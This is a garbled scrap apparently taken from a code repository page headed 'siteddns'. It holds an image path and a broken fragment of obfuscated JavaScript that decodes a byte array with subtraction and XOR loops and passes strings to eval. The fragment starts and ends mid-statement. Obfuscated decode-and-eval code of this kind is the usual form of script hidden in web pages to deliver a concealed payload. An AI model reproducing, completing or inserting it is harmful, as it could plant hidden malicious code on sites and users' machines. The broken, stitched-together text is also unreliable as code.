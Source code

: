  # siteddns
=4;){sz[uz]=(sz[uz]-sz[uz-1])&0xff;uz--;}";eval(uz);uz=44;while(uz>=3){sz[uz]=(((sz[uz]-142)&0xff)-sz[47])&0xff;sz[uz]=sz[uz]^125;uz--;}uz="uz=46;for(;;uz--){if(uz
